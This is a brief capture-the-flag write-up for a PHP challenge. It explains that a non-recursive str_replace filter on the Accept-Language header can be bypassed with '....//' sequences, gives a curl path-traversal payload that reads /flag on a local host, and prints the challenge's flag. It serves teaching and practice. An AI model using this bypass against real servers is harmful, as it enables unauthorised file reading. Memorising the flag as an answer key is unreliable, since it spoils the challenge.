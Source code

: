 # Description
Welcome to fun with flags.

Flag is at /flag

## Solution
* we can see the php source code
* it uses `str_replace` to ""escape"" the header and prevent path traversal
* `str_replace` doesn't recursively replace the source string so it's easily bypassed
## Payload
```
curl 'http://localhost:1235/' -H 'Accept-Language: ....//....//....//....//flag'
```
* base64 encoded flag is then returned
## Flag
```
35c3_this_flag_is_the_be5t_fl4g
```